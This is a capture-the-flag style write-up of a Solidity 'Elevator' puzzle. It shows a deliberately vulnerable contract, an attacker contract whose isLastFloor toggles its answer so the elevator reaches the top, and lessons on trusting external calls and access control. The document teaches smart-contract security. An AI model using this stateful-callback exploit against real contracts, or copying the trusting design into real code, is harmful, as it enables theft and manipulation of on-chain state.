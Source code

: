 # ●●○○○ Elevator
- This elevator won't let you reach the top of your building. Right?

Things that might help:
- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
## The above contract:
  - The Elevator contract assumes it will call a pure/view function or at least a truthful one.
  - There is no reinforcement in access control.
  - It assumes that the isLastFloor() behaves equally on each call.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract Zero is Building {

    bool toggle;
    Elevator public victimElevator;

    constructor(address _victimAddress){
        victimElevator = Elevator(_victimAddress);
    }

    function isLastFloor(uint256) external override returns (bool){
        toggle = !toggle;
        return toggle;
    }
    
    function attack() external {
        victimElevator.goTo(5);
    }
}
```

# Takeaways:
📌 Takeaway: Don’t rely on external contracts (or msg.sender) to enforce important logic.

🧩 2. Interfaces don't enforce behavior — only structure
The Building interface only defines the shape of the function:

📌 Takeaway: Interfaces help define structure, not logic. Always be cautious when calling external code via interfaces.

🔁 3. External calls can behave differently each time
The Elevator contract calls isLastFloor() twice, assuming the result won't change.

📌 Takeaway: Don't assume deterministic results from external calls — they can be stateful or malicious.

🔐 4. Always minimize trust — use patterns like onlyOwner, whitelists, or pull instead of push
The Elevator contract trusts msg.sender is a legitimate Building. But it doesn’t:

Use access control
📌 Takeaway: Introduce access control or sanity checks when calling untrusted contracts.


# Summary of Lessons
- Risk             	         : --->  Lesson <br />
Trusting external calls	     : --->  Validate or restrict them <br />
Interfaces vs logic	         : --->  Interfaces are contracts' shapes, not their behaviors <br />
Assumptions about consistency: --->	 External contracts can lie or act differently between calls <br />
Lack of access control	     : --->  Use onlyOwner, whitelists, or other guards <br />
Dangerous external design	   : --->  Beware of composability without validation <br />

